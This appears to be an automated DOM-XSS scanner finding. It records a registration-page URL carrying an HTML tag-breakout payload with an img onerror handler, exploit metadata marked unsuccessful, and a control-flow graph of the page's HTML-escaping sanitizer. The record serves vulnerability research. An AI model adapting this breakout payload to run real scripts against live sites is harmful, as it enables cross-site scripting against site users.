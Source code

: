 // Finding: 4efe9c01-7bfe-4147-87b8-9bb2e8bfed5a
// Finding.url: https://na.example124.com/registration/en/?game=wows&login_form=enabled&pub_id=cta_&sid=SIDZbBsUPBYoFyW8qM9ii3ujx3aElelISif26EySTsJRDMY1iMu9G2H2V7OZRT-8fcZEJen4T6KA_A_LTqYGXknP1OfWX_-dfyIGT0JWYVsgePyIzByoimd17fi9zF8mD6XAhlICFY4pAg18Iv3L9dJgzuvngam53dMfcvoB0bq&enctid=cbactg0p5v39"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('c7d609709a344cc9b6c3c875d2ae0d80')><!--/*&lpsn=WoWS+WGNR+reg+full+NA+login&foris=1&utm_source=wg_web_site&utm_medium=organic&utm_campaign=organic-na-wows-portal-pff-button&utm_content=cta_
// Finding.parentloc: https://na.example124.com/registration/en/?game=wows&login_form=enabled&pub_id=cta_&sid=SIDZbBsUPBYoFyW8qM9ii3ujx3aElelISif26EySTsJRDMY1iMu9G2H2V7OZRT-8fcZEJen4T6KA_A_LTqYGXknP1OfWX_-dfyIGT0JWYVsgePyIzByoimd17fi9zF8mD6XAhlICFY4pAg18Iv3L9dJgzuvngam53dMfcvoB0bq&enctid=cbactg0p5v39"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('c7d609709a344cc9b6c3c875d2ae0d80')><!--/*&lpsn=WoWS+WGNR+reg+full+NA+login&foris=1&utm_source=wg_web_site&utm_medium=organic&utm_campaign=organic-na-wows-portal-pff-button&utm_content=cta_
// Finding.domain: na.example124.com
// Finding.base_domain: example124.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 5
// Sanitizer.name: r
// Sanitizer.location: https://na.example124.com/registration/static/2021.3/build/js/registration/dark/new.js - code:1:80324
// Finding.begin: 593
// Finding.end: 611
// Finding.original_uuid: 0a8457d2-465e-4607-96c6-5c23afbd1a0c
// Finding.TwentyFiveMillionFlowsId: -2082421694
// Finding.script: https://na.example124.com/registration/static/2021.3/build/js/common.js
// Finding.line: 1
// Exploit.uuid: c7d60970-9a34-4cc9-b6c3-c875d2ae0d80
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: action
// Exploit.quote_type: "
// Exploit.tag: form
// Exploit.break_out: enctid=cbactg0p5v39"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: enctid=cbactg0p5v39"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 259
// Exploit.end_taint_url: 278
// Exploit.replace_begin_url: 259
// Exploit.replace_end_url: 278
// Exploit.replace_begin_param: 303
// Exploit.replace_end_param: 322
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1941451501
// DepGraph.sanitizer_hash: 67208117
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="."];
n2 [shape=box, label="Lit: &amp;"];
n3 [shape=ellipse, label="preg_replace"];
n4 [shape=box, label="RegExp: /[&]/"];
n5 [shape=box, label="Lit: &amp;"];
n6 [shape=box, label="Var: x"];
n7 [shape=ellipse, label="preg_replace"];
n8 [shape=box, label="RegExp: /[<]/"];
n9 [shape=box, label="Lit: &lt;"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="preg_replace"];
n12 [shape=box, label="RegExp: /[>]/"];
n13 [shape=box, label="Lit: &gt;"];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="preg_replace"];
n16 [shape=box, label="RegExp: /\'/"];
n17 [shape=box, label="Lit: &#39;"];
n18 [shape=box, label="Var: x"];
n19 [shape=ellipse, label="preg_replace"];
n20 [shape=box, label="RegExp: /\"/"];
n21 [shape=box, label="Lit: &quot;"];
n22 [shape=box, label="Var: x"];
n23 [shape=box, label="Var: x"];
n24 [shape=doubleoctagon, label="Return: x"];
n1 -> n0;
n1 -> n2;
n6 -> n1;
n3 -> n4;
n3 -> n5;
n3 -> n6;
n10 -> n3;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n14 -> n7;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n18 -> n11;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n22 -> n15;
n19 -> n20;
n19 -> n21;
n19 -> n22;
n23 -> n19;
n24 -> n23;
}